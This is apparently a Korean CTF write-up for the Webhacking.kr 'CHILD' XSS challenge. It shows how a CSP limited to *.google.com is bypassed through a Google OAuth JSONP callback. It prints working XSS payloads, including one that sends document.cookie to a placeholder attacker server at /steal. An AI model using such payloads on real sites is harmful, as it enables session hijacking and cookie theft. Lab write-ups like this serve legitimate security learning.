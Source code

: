 ```yaml
---
title: ["[Webhacking.kr] CHILD (xss - 150)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, xss, csp bypass]
---
```


XSS 문제이다.  

```
?inject=<script>alert(1)</script>

Refused to execute inline script because it violates the following Content Security Policy directive: "script-src https://*.google.com/". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.
```

마찬가지로 CSP가 걸려있다.  
`script-src https://*.google.com/`은, 스크립트 소스를 `*.google.com`으로 제한하고 있다.  

### Third Party Endpoints + JSONP
[Bypass using JSONP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints--jsonp) 가 가능할 것 같다.  

JSONP(JSON with Padding)는 SOP(Same Origin Policy)의 제한을 우회하기 위해 만들어진 방식인데,  
JSONP의 callback 파라미터를 통해 javascript 코드를 실행하여 CSP 우회도 가능하다.  

여러 방식이 있었는데, XSS가 안터졌고,  
[이곳](https://www.cobalt.io/blog/csp-and-bypasses)에서 소개된 페이로드가 작동했다.  

```
?inject=<script+src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
```
alert가 뜬다.

BABY에서 사용한 서버를 다시 세팅해주고,  
```
?inject=<script+src="https://accounts.google.com/o/oauth2/revoke?callback=document.location.href='http://{MY_SERVER_IP}/steal?cookie='%252bencodeURIComponent(document.cookie);"></script>
```

페이로드를 동작하게 하기 위해 두 가지 삽질을 했다.

먼저, `'http://server.com/?cookie='+document.cookie`가 URL Encoding의 영향인지 동작하지 않았다.  
`+`를 처리하기 위해 `%2b`를 했지만, 역시나 동작하지 않았다.  

관련된 문제를 구글링 해보니, 더블 인코딩을 해야 한다.  
즉, `+`를 `%252b`로 표현할 수 있다.  

두번째로, `;`을 포함하지 않았다.  
이건 왜 없을 때 안되는지 모르겠다..